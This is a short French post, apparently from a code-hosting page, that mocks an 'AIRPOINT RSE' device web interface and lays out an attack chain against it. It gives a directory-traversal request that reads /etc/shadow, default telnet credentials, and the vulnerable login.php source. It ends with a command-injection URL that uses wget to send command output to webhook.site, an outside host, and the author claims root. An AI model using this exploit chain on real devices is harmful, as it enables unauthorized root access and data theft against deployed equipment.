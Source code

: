 ta gueule vlad !!!

html:"AIRPOINT RSE"

encore une clownerie

302 bypass sur /Log.php qui permet de découvrir /download.php?file_down qui lui meme est vuln a des attaques de directory traversal.

Ah oui et le serv web tourne en root donc..

/download.php?file_down=../../../../../../etc/shadow  :)

ensuite on trouve les noms des user : ezboard et bien sur user as pass sur le telnet.. (ezboard:ezboard)

MAIS YA MIEU
```
---------------------------- login.php ----------------------------
<? require "cfg_cmd.php"; ?>

<?
    session_start();
    if( isset($HTTP_SESSION_VARS['login_name']) == false )
    {
        session_register("login_name");
    }
    $user_id = exec($cfg_read . "user_id");
    if( ($HTTP_SESSION_VARS['login_name'] != $user_id) )
    {
        if( isset($_GET['login_id']) )
        {
            $user_pw = exec($cfg_read . "user_pw");
            $input_id = $_GET['user_id'];
            $input_pw = $_GET['user_pw'];
            $input_pw = exec($cfg_aes_enc . $input_pw);
            if( ($user_id == $input_id) && ($user_pw == $input_pw) )
            {
                $HTTP_SESSION_VARS['login_name'] = $user_id;
                echo "OK";
            }
            else
            {
                echo "AUTH_FAIL";
            }
        }
        else
        {
            echo "FAIL";
        }
    }
    else
    {
        echo "OK";
    }
?>
```
------------------------------------------------------------------------------------

CA LA, CA, C'EST LE CODE DE LA PAGE DE LOGIN.. 

du coup bon ben /login.php?login_id=123&user_id=123&user_pw=$(wget%20http://webhook.site/xx/$(id))

voila on est root..


:clown_face::clown_face::clown_face::clown_face::clown_face::clown_face::clown_face: pouet pouet

